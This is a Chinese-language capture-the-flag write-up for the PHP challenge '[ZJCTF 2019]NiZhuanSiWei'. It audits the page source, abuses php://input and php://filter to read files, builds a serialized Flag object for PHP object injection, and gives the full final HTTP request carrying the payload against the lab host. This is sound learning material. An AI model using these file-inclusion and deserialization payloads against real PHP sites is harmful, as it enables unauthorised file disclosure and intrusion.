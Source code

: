 # [ZJCTF 2019]NiZhuanSiWei
TAG:PHP 源码审计 PHP伪协议  
## 解题过程：  
打开题目就发现页面源代码，进行审计获取解题信息  
![20210105114634](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210105114634.png)  
```
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?> 
```
通过代码分析可知，页面通过GET获取```text```,```file```,```password```三个参数  
1. 如果```text```参数存在就打开```text```参数（文件名）指向的文件，当文件中只含有字符串```welcome to the zjctf```时输出此字符串并向下执行代码  
2. 判断```file```参数中是否存在```flag```字符串，如果存在就退出，不存在将向下运行  
3. 读取```file```参数指向的文件，并将```password```参数内容反序列化后输出  

针对```text```参数使用PHP伪协议```php://input```绕过  
![20210105171614](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210105171614.png)  
针对```file```参数使用PHP伪协议```php://filter```读取文件  
![20210105172353](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210105172353.png)  
将获得的base64值解码，获得```useless.php```源码  
![20210105172510](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210105172510.png)  
```
<?php  
class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```
  
通过分析源码可知，此处考查PHP魔术方法与序列化，当Flag类被判别为字符串时将自动调用```__tostring()```,在```index.php```中恰好存在文件包含与``` echo $password;```,故构造:
```
<?php  
class Flag{  
    public $file='flag.php';  
}  
$a = new Flag;
echo urlencode(serialize($a));
?>  
```
执行结果为:
```O%3A4%3A%22Flag%22%3A1%3A%7Bs%3A4%3A%22file%22%3Bs%3A8%3A%22flag.php%22%3B%7D```  
最终的payload为:
```
POST /?text=php://input&file=useless.php&password=O%3A4%3A%22Flag%22%3A1%3A%7Bs%3A4%3A%22file%22%3Bs%3A8%3A%22flag.php%22%3B%7D   HTTP/1.1
Host: f8e0bbc3-a9da-420f-b226-34572ca8a794.node3.buuoj.cn
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: */*
Accept-Language: zh-CN
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Cache: no-cache
Content-Length: 20
Origin: null
DNT: 1
Connection: close

welcome to the zjctf
```
成功获取flag  
![20210105175000](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210105175000.png)  
## 题目分析  
此题考查了PHP伪协议与PHP魔术方法  
参见:[PHP伪协议利用笔记]()  